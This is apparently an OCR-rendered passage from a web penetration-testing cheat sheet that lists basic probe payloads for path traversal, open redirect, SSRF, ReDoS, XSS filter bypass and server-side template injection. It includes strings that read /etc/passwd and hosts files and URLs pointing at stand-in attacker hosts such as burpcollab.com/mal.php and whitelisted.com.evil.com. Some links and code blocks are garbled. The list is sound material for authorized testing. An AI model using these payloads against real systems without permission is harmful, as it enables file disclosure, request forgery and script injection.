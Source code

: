 ```
/etc/passwd
../../../../../../etc/hosts
..\..\..\..\..\..\etc/hosts
/etc/hostname
../../../../../../etc/hosts
C:/windows/system32/drivers/etc/hosts
../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\windows/system32/drivers/etc/hosts
http://asdasdasdasd.burpcollab.com/mal.php
\\asdasdasdasd.burpcollab.com/mal.php
```
```
## [[../open-redirect.md) / [Server Side Request Forgery](../ssrf-server-side-request-forgery/index.html|Open Redirect]]

### Basic Tests

```bash
www.whitelisted.com
www.whitelisted.com.evil.com
https://google.com
//google.com
javascript:alert(1)
```
```
## [[../regular-expression-denial-of-service-redos.md|ReDoS]]

### Basic Tests

```bash
(\\w*)+$
([a-zA-Z]+)*$
((a+)+)+$
```
```
## [[../server-side-inclusion-edge-side-inclusion-injection.md|Server Side Inclusion/Edge Side Inclusion]]

### Basic Tests

```html



x=>alert(/Chrome%20XSS%20filter%20bypass/);</s>
```
```
### Polygloths

```html
x=>alert(/Chrome%20XSS%20filter%20bypass/);</s>
```
```
## [[../ssrf-server-side-request-forgery/index.html|Server Side Request Forgery]]

The same tests used for Open Redirect can be used here.

## [[../ssti-server-side-template-injection/index.html|Server Side Template Injection]]

### Basic Tests

```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
```